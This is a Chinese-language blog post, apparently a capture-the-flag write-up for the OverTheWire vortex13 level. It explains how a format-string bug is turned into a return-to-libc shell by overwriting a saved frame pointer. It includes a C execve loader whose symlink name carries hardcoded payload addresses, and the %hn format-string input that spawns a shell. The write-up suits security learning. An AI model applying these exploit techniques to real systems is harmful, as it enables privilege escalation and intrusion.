 ```yaml
---
title: vortex13
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题和vortex12一样是猥琐流……

题目说了栈还是不能执行，所以还是ROP。但这里陷入了思维定式，主要还是因为vortex12的影响，让我觉得还要修改got。但ROP不只是修改got，直接改返回地址也是可以的；而vortex12里也可以在主线程里改返回地址，但那样没用因为主线程已经去掉euid了。这道题的输入限制在20个字符，如果想修改got几乎是不可能的了……

具体地，想要直接修改返回地址为system，还要用两次hn，但20个字符还是不够。于是我们通过修改vuln的stored ebp来跳回到我们指定的地址，接下来leave ret就可以返回我们提供的地址了

另一方面，由于一开始argv和envp都被清空了，所以我们不能把payload放到那里。最后发现，在栈的底部大概0xffffdff0附近，放的是程序的完整路径，链接文件也是链接的路径。这个没有被清空，所以还是猥琐流，把vortex13链接到一个文件名包含所需地址的链接文件即可

还有，argc会检查是否为0，所以我们只能另写一个loader，在里面execve，并且提供argv只包含NULL 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main() {
    char *args[] ={NULL};
    char *envs[] ={NULL};
    char *prog = "./" "\x38\xde\xff\xff" "\xfe\xd0\xff\xff" "\x50\xe7\xe5\xf7" "\x93\x99\xe3\xf7" "\xf4\xdf\xff\xff" " sh";
    //printf("%s\n", prog);
    execve(prog, args, envs);
}
{% endhighlight %}

具体的文件名是：(addr of saved ebp in vuln) + (prev saved ebp) + (addr of system) + (ret addr for system) + (addr of string &#8220;sh&#8221;) + (string &#8220;sh&#8221;)

最后把vortex13链接到我们那个文件，执行 

<pre>$ ./noArg %57316x%116$hn</pre>

其中57316=0xdfe4，是我们的链接文件名的地址后4位, 得到shell

